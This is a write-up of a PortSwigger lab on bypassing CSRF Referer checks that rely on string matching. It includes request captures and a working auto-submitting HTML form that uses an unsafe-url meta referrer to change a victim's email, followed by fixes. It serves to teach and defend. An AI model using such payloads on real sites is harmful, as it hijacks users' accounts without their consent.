

# PortSwigger Lab: CSRF with broken Referer validation

**Platform:** PortSwigger Web Security Academy  
**Difficulty:** Medium  
**Type:** CSRF with Broken Referer Validation  
**Objective:** Change victim's email using CSRF attack  
**Key Vulnerability:** Referer validation uses string matching instead of origin validation

---

## Attack Flow

```
Login & analyze email change request
→ Discover Referer header is required
→ Normal CSRF blocked (Referer from attacker domain)
→ Discover: Server checks if domain STRING is in Referer
→ Craft attacker URL with target domain in path
→ Use <meta name="referrer" content="unsafe-url">
→ Browser sends full URL as Referer
→ Server finds target domain in path → Allows it
→ Deploy on exploit server → Email changed
```

---

## 1. Normal Email Change Request



Legitimate request:

```http
POST /my-account/change-email HTTP/2
Host: 0a1a00570496fb00824f42930094009a.web-security-academy.net
Cookie: session=...
Referer: https://0a1a00570496fb00824f42930094009a.web-security-academy.net/my-account?id=wiener

email=user@user.es
```

Server validates Referer is from target domain.

---

## 2. Invalid Referer Blocked

Remove or change Referer:

```http
POST /my-account/change-email HTTP/2
[Referer changed or missing]

email=hacked@hacked.com
```

**Response:**

```
HTTP/2 400 Bad Request
"Invalid referer header"
```

Blocked.

---

## 3. Discovery: String Matching Validation

The server doesn't validate **origin**, it validates if the domain **string appears** in Referer.

Test with target domain in URL path:

```
Referer: https://exploit-server.net/exploit.0a1a00570496fb00824f42930094009a.web-security-academy.net
```

**Response:**

```
HTTP/2 302 Found
Location: /my-account?id=wiener
```

✅ **Accepted!**

Server checks: "Does `0a1a00570496fb00824f42930094009a.web-security-academy.net` appear in Referer?" → YES

---

## 4. Configure Exploit Server

Exploit server URL:

```
https://exploit-0aff001b0410fb98820941f701af00c4.exploit-server.net/exploit
```

Modify file path to include target domain:

```
/exploit.0a1a00570496fb00824f42930094009a.web-security-academy.net
```

Full URL:

```
https://exploit-0aff001b0410fb98820941f701af00c4.exploit-server.net/exploit.0a1a00570496fb00824f42930094009a.web-security-academy.net
```

---

## 5. Initial CSRF Payload

```html
<html>
  <body>
    <iframe style="display:none" name="csrfframe"></iframe>
    <form method="POST" 
          action="https://0a1a00570496fb00824f42930094009a.web-security-academy.net/my-account/change-email" 
          id="csrfform" 
          target="csrfframe">
      <input type="hidden" name="email" value="hacked@attacker.com" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Problem:**
- Sends Referer: `https://exploit-server.net/`
- Doesn't contain target domain
- ❌ Blocked

---

## 6. Solution: unsafe-url Meta Referrer

Add meta tag:

```html
<meta name="referrer" content="unsafe-url">
```

This forces browser to send the **full page URL** as Referer:

```
Referer: https://exploit-0aff001b0410fb98820941f701af00c4.exploit-server.net/exploit.0a1a00570496fb00824f42930094009a.web-security-academy.net
```

Server checks: "Is target domain in this Referer?" → **YES** ✅

---

## 7. Final Working Payload

```html
<html>
  <body>
    <iframe style="display:none" name="csrfframe"></iframe>
    <meta name="referrer" content="unsafe-url">
    <form method="POST" 
          action="https://0a1a00570496fb00824f42930094009a.web-security-academy.net/my-account/change-email" 
          id="csrfform" 
          target="csrfframe">
      <input type="hidden" name="email" value="hacked@attacker.com" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## Why It Works

- **Broken validation:** String matching instead of origin validation
- **Domain in path:** Target domain included in exploit URL path
- **unsafe-url:** Forces browser to send full URL as Referer
- **String found:** Server's validation finds domain in Referer
- **Request allowed:** Passes validation despite cross-site origin

---

## Vulnerable Validation Logic

```javascript
// WRONG: Server does this
if (referer.includes(targetDomain)) {
  allow();  // ❌ Can include domain anywhere in URL
}
```

**Should be:**

```javascript
// CORRECT
const refererOrigin = new URL(referer).origin;
if (refererOrigin !== targetOrigin) {
  reject();
}

// BETTER: Use CSRF tokens
if (!isValidCSRFToken(req.body.csrf_token)) {
  reject();
}
```

---

## Meta Referrer Policies

| Policy | Behavior |
|--------|----------|
| `never` | Never send Referer |
| `unsafe-url` | Always send full URL |
| `same-origin` | Only on same-origin |
| `strict-origin` | Same-origin or more secure |

---

## References

- [PortSwigger — CSRF Prevention](https://portswigger.net/web-security/csrf)
- [MDN — Referrer Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy)
- [OWASP — CSRF Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
